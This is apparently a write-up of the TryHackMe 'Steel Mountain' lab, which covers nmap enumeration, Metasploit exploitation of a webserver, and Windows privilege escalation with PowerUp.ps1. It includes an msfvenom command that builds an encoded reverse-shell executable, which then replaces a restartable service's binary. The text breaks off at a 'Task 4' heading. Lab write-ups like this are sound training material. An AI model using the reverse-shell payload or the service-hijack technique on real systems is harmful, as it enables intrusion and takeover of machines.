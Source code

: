 # Steel Mountain - TryHackMe Room Walkthrough

![logo](img/logo.png)
---

| **Description:**  | _Hack into a Mr. Robot themed Windows machine. Use metasploit for initial access, utilise powershell for Windows privilege escalation enumeration and learn a new technique to get Administrator access._ |
| ------------- | ------------- |
| **Level:**  | _Easy_   |
| **Approx Duration:**  | _45 minutes_  |
| **Author:**  | _tryhackme_  |
| **Path:**  | _Offensive Penetration Testing_  |
| **Type:**  | _Premium Room_  |

---

## Task 1

Our Task in the tryhackme room is find out the answer for the question ***Who is the employee of the month?***.

To find this I boot up the target machine attached to this room and create a tunnel connection to my kali linux using openvpn.

Target IP Address: 10.10.207.146

First step after getting the IP address would be to enumerate the machine and find as much information as possible.

To do this i am using nmap. 

```
nmap 10.10.207.146 -sV
```

![nmap](img/nmap.png)

From the basic nmap we can see that the target is a windows machine that is running a http service on the default port 80 and various other information which we will use later in this room.

Since this is a http service, we can visit via browser.

`http://10.10.207.146`

![website](img/website.png)

We found the employee of the month, but we still need to find his name. Simply by inspecting the image on the browser we can get some details about the image.

![employee](img/employee.png)

From the page source, we have identified that the name of the employee is `Bill Harper`.

---

## Task 2 - Initial Access

To find which port hosts webserver. We need to do an aggressive nmap scan.

``` 
nmap 10.10.207.146 -A -vv
```

![webserver](img/webserver.png)

The webserver is running on port 8080.

![version](img/version.png)

Bootup the metasploit consolue using `msfconsole` command and use the `search` command to look for the exploits in the found version of the webserver.

![search](img/search.png)

We can also search in exploit-db.com and find the CVE number of the exploit.

![cve](img/cve.png)

Once we have selected the exploit module in metasploit, we need to set the rhost to our target machine's IP address.

![rhosts](img/rhosts.png)

![rport](img/rport.png)

If you are using openvpn like me, be sure to use tunnel ip as your lhost to start the reverse shell on that ip.

![lhost](img/lhost.png)

With everything set, run the exploit.

![exploit](img/exploit.png)

Using the `shell` command. We can get the windows shell on our machine. With this we can navigate to the flag location and extract the flag.

![flag1](img/flag1.png)

---

## Task 3 - Privilege Escalation

We have a shell on the target machine, the shell runs with the permission of the user bill. As an attacker we need to look to escalate the privilege and get a shell that can run as root.

Download a powersploit script from `https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1`.

Exit the bill shell and in the meterspreter upload PowerUp.ps1.

![upload](img/upload.png)

To load powershell in meterpreter, run the following commands:

![powershell](img/powershell.png)

![command](img/command.png)

Find the service which has canrestart set to true.

![canrestart](img/canrestart.png)

Use msfvenom to generate a reverse shell as an Windows executable.

msfvenom -p windows/shell_reverse_tcp LHOST=CONNECTION_IP LPORT=4443 -e x86/shikata_ga_nai -f exe-service -o Advanced.exe

We need first upload the file in meterpreter and go the shell and stop the service, replace the legit file with the uploaded corrupt file, start a netcat listener on local machine and start the service.

![msfvenom](img/msfvenom.png)

![upload](img/ASCService-Upload.png)

![stop-service](img/stop-service.png)

![restart](img/restart.png)

![rev-shell](img/rev-shell.png)

Locate and read the file which contains the root.txt.

![flag2](img/flag2.png)

---

## Task 4